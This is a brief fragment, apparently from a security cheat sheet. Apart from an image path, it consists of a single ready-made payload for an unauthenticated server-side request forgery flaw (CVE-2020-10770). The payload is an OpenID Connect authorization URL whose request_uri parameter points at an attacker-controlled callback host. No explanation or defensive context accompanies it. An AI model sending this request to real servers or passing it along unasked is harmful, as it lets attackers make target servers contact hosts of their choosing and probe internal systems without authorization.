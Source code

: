 - **Unauthenticated SSRF CVE-2020-10770:-** {Host}/auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=cfx&nonce=cfx&client_id=security-admin-console&request_uri=http://{hook}
